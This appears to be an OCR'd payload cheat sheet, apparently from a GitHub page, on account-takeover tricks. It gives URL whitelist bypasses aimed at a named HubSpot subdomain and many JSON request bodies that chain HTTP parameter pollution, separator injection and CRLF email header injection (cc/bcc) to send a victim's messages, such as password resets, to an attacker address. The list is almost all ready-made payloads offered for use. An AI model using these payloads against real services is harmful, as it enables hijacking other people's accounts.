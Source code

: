 mydomain.com/growanz.hubspot.com

Bypass white list validation

mydomain.com%23@growanz.hubspot.com

mydomain.com%25%32%33@growanz.hubspot.com

```
{"email":"victim@mail.com","email":"attacker@mail.com"}

{"email":"Victim@gmail.com,Attacker@gmail.com","email":"Victim@gmail.com"}
{"email":"Victim@gmail.com","email":"Victim@gmail.com,Attacker@gmail.com"}

// Semiclon saperator with HPP chain
{"email":"Victim@gmail.com;Attacker@gmail.com","email":"Victim@gmail.com"}
{"email":"Victim@gmail.com","email":"Victim@gmail.com;Attacker@gmail.com"}
// Space saperator with HPP chain
{"email":"Victim@gmail.com%20Attacker@gmail.com","email":"Victim@gmail.com"}
{"email":"Victim@gmail.com","email":"Victim@gmail.com%20Attacker@gmail.com"}


/ Carbon Copy (CC:) with HPP chain
{"email":"Victim@mail.com%0Acc:Attacker@mail.com","email":"Victim@mail.com"}
{"email":"Victim@mail.com","email":"Victim@mail.com%0Acc:Attacker@mail.com"}

// Blind Carbon Copy (BCC:) with HPP chain
{"email": "Victim@mail.com%0Abcc:Attacker@mail.com","email":"Victim@mail.com"}
{"email":"Victim@mail.com","email":"Victim@mail.com%0Abcc:Attacker@mail.com"}


// Carbon Copy (CC:) with HPP chain
{"email":"Victim@mail.com%0D%0Acc:Attacker@mail.com","email":"Victim@mail.com"}
{"email":"Victim@mail.com","email":"Victim@mail.com%0D%0Acc:Attacker@mail.com"}

// Blind Carbon Copy (BCC:) with HPP chain
{"email": "Victim@mail.com%0D%0Abcc:Attacker@mail.com","email":"Victim@mail.com"}
{"email":"Victim@mail.com","email": "Victim@mail.com%0D%0Abcc:Attacker@mail.com"}



// HPP chain with Bypass the mail() function protection against email header injection
{"email":"Victim@mail.com\r\n \ncc: Attacker@mail.com","email":"Victim@mail.com"}
{"email":"Victim@mail.com","email":"Victim@mail.com\r\n \ncc: Attacker@mail.com"}


// Array of emails
{"email":["victim@mail.com","attacker@mail.com"]}

// Array of emails
"user": {  
     "email": [  
              "victim@gmail.com",  
              "attacker@gmail.com"  
       ]  
 },  

```
---
